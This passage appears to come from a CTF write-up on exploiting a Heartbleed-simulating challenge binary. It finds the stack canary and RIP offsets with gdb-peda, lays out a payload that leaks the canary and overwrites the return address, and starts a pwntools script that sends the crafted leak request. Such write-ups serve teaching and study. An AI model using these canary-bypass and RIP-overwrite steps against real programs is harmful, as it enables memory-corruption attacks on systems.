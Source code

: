 We find out the `line 13` is the one which responsible for the canary check so let's add breakpoint for this line and run the application while we sending this input data `0:Uniq Pattern with 1100 Byte` as we explain before the `zero` is send to break the while loop to end the application and the uniq pattern to identify which offset is overwrite the canary

![](/assets/img/ctf/pwn/A Guilded Lily/Exploit2.png)

Now Let's check the offset of the content which appears in the `RCX` Register and we found that the offset for correct canary is `1032`

```console
gdb-peda$ pattern offset 0x41296e413b6e4144
4695405312959463748 found at offset: 1032 
```

Now let's do the same to check the correct offset for the `RIP`. This time we set breakpoint at this line `main+181` because this is the line which will executed when the canary check is failed so when we get to this line we will use GDB to skip it and go to next lines which has the `leave; ret` which will allow us to know the correct offset of the RIP if we pass the canary check

when we hit the breakpoint we will execute this command on gdb and hit continue

```console
gdb-peda$ set $rip = 0x401ef8
```
By doing this we take the canary check out of the equation and simulate that the check is passed correctly 

![](/assets/img/ctf/pwn/A Guilded Lily/Exploit3.png)

Now let's check the offset of the string in the stack because this string is the one which should be goes to the `RIP`

```console
gdb-peda$ pattern offset AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngA
AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngA found at offset: 1048  
```

So the correct offset of the `RIP` is `1048`. This means our payload will be like the following :
- `1032 Bytes` of Junk data to reach the Canary
- `8 Bytes` which is the Canary correct leaked value
- `1048 - 1032 - 8 = 8 Bytes` Another junk to fill the gap to reach the `RIP` offset
- `8 Bytes` Which is the `RIP` new value as we want

So let's trying to test this and try to make the application start all over again and print us the `Heartbleed Bug Simulator (CVE-2014-0160)` message if we able to do this this means we able to control the `RIP` correctly so we set the `RIP` to the address fo the first instruction in the main which is `0x0000000000401e3e`

```python
from pwn import *

# Binary filename
exe = './challenge.bin'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Open the process
io = process(exe)

# Wait to get the waiting heart beat request message then send our text '1000:DeadBeef'
io.sendlineafter(b'Waiting for heart beat request...\n',b"1000:DeadBeef")
io.recvuntil(b'Sending heart beat response...\n')

# Getting the leaked data and the [:-35] is to remove this text '\nWaiting for heart beat request...\n' from the result
Leaked_raw = io.recvuntil(b'\nWaiting for heart beat request...\n')[:-35]

```